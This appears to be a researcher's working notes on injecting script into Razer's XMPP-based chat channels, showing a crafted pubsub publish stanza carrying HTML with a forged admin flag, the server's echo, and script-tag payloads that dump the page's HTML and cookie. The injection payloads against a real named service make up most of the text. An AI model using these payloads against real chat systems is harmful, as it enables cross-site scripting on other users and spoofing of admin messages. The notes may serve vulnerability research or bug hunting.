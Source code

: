 Don't need XMPP to inject JS. Just modify the `PUT`. However, when you inject you won't see it yourself, you have to go out and come back to the channel.

``` xml
<iq to='pubsub.razerzone.com' type='set' id='14' xmlns='jabber:client'><pubsub xmlns='http://jabber.org/protocol/pubsub'><publish node='channel.messages.47e679df381c454928cce4799ab983c8f5afa136'><item><json xmlns='urn:xmpp:json:0'>{&quot;message&quot;:&quot;&lt;span&gt;test message 2&lt;/span&gt;&quot;,&quot;sender_name&quot;:&quot;randomcommsID&quot;,&quot;message_id&quot;:&quot;9cddf1b83bcabd8fbccf7f5487cb0c91cadb9ebe&quot;,&quot;admin&quot;:true,&quot;sender&quot;:&quot;rzr_...@razerzone.com&quot;}</json></item></publish></pubsub></iq>
```

Response from server:

``` xml
<message xmlns='jabber:client' from='rzr_...@razerzone.com/generic_chat_LkNii429' to='rzr_...@razerzone.com/generic_chat_LkNii429' type='headline'><event xmlns='http://jabber.org/protocol/pubsub#event'><items xmlns='http://jabber.org/protocol/pubsub#event' node='channel.messages.47e679df381c454928cce4799ab983c8f5afa136'><item xmlns='http://jabber.org/protocol/pubsub#event'><json xmlns='urn:xmpp:json:0'>{&quot;message&quot;:&quot;&lt;span&gt;test message 2&lt;/span&gt;&quot;,&quot;sender_name&quot;:&quot;randomcommsID&quot;,&quot;message_id&quot;:&quot;9cddf1b83bcabd8fbccf7f5487cb0c91cadb9ebe&quot;,&quot;admin&quot;:true,&quot;sender&quot;:&quot;rzr_...@razerzone.com&quot;}</json></item></items></event></message>
```

To remove message boxes, press `Enter`.

`al0rt(document.cookie)` does nothing.

**we need to find out what is this thing that the JS is running in**

Announcement doesn't work. It seems like announcements are treated as text.

-------

al0rt(document.cookie) is empty. Obviously


<script>al0rt(document.body.innerHTML)</script>


<script>al0rt(document.body.outerHTML)</script>

![](images/06.png)

show some HTML.

We can see more in the channel via browser.

Now we need to find out where the JS is being executed.
